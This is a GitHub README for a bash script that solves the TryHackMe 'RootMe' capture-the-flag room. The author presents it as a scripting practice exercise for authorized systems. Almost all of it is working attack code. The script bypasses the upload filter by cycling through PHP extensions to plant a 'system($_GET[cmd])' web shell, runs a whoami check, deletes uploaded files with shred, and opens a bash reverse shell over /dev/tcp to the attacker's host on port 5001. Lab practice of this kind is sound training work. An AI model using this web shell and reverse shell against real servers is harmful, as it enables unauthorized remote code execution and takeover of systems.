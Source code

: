 > The purpose of this script is to practice scripting in bash and understand the techniques involved in bypassing file upload restrictions. It serves as a learning exercise and should only be used on authorized systems for educational purposes.

# TryHackMe-RootMe
### Bash script to solve the TryHackMe machine: [RootMe](https://tryhackme.com/room/rrootme). I wrote this script to learn and practice bash scripting. I used it to bypass file upload restrictions and gain access to the server, allowing me to escalate privileges later on.

![ezgif com-crop](https://github.com/kvlx-alt/File-upload-bypass-TryHackMe-RootMe/assets/118694485/3a0bc6f0-8bcb-4b91-887e-ef982cd1efa5)


``` bash
#!/bin/bash

# Colores
greenColour="\e[0;32m\033[1m"
endColour="\033[0m\e[0m"
redColour="\e[0;31m\033[1m"
blueColour="\e[0;34m\033[1m"
yellowColour="\e[0;33m\033[1m"
purpleColour="\e[0;35m\033[1m"
turquoiseColour="\e[0;36m\033[1m"
grayColour="\e[0;37m\033[1m"

# Ctrl C
trap 'echo -e "\n\n${redColour}[!] Keyboard interruption detected. Terminating.${endColour}\n"; exit 1' INT

file_extension=(".php" ".php2" ".php3" ".php4" ".php5" ".php6" ".php7" ".phps" ".phps" ".pht" ".phtm" ".phtml" ".pgif" ".shtml" ".htaccess" ".phar" ".inc" ".hphp" ".ctp" ".module")
# let's create a file with some PHP code
php_code='<?php system($_GET["cmd"]); ?>'

for extension in "${file_extension[@]}"; do
  
  echo "$php_code" > "cmd${extension}"
  sleep 2
  response=$(curl -s -F "fileUpload=@cmd${extension}" -F "submit=" "http://10.10.45.41/panel/")
  
  if echo "$response" | grep -q "PHP não é permitido!"; then
    echo -e "${yellowColour}[*]Checking file extension cmd${extension}${endColour}"
    echo -e "${redColour}Sorry, you cannot upload this file${endColour}${yellowColour} >${endColour} ${purpleColour}cmd$extension.${endColour}"
  else
    echo -ne "\r${yellowColour}[*]Checking if the${endColour} ${redColour}whoami${endColour} ${yellowColour}commmand works with the following extension file cmd${extension}${endColour}"
    check_cmd=$(curl -s "http://10.10.45.41/uploads/cmd${extension}?cmd=whoami")
    if echo "$check_cmd" | grep -q "www-data"; then
      echo -e "${redColour} [Yes] ${endColour}${purpleColour}$check_cmd${endColour}"
      sleep 2
      valid_extention="cmd${extension}"
      echo -e "${yellowColour}[!]Delete invalid files on the server${endColour}"
      sleep 3
      echo -e "${yellowColour}[*]${endColour}${yellowColour}Success fully deleted.${endColour}"
      echo -e "${yellowColour}[!]Please open another terminal and start listening to the reverse shell with the following command${endColour} ${redColour}nc -nlvp 5001${endColour}"
      sleep 20
      curl -s 'http://10.10.45.41/uploads/cmd${extension}?cmd=find%20.%20-maxdepth%201%20-type%20f%20-name%20%22cmd*%22%20%21%20-name%20"'$valid_extention'"%20-exec%20shred%20-u%20%7B%7D%20%5C%3B'
      echo -e "${yellowColour}[*]triyng reverse shell${endColour}"
      shell=$(echo -e "GET /uploads/cmd${extension}?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.2.39.16%2F5001%200%3E%261%27 HTTP/1.0\r\n\r\n" | nc 10.10.45.41 80)
      break
    fi
  fi
  rm "cmd${extension}"
done
```
### I'm learning, so I appreciate any help and recommendations you can give me to improve my scripting in bash. 
> Hey, follow me on [LinkedIn!](https://www.linkedin.com/in/kevinvanegaszubiria)
